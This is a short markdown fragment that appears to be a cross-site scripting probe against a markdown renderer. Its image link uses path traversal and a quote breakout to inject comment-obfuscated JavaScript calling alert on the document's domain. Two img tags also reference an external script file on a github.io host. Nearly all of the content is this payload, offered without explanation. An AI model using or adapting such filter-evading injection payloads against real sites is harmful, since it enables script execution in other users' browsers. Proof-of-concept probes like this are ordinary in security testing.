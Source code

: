 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src="https://r89shi/r89shi.github.io/blob/master/teste.js" type="text/javascript">

<img src="https://r89shi.github.io/teste.js" type="text/javascript">
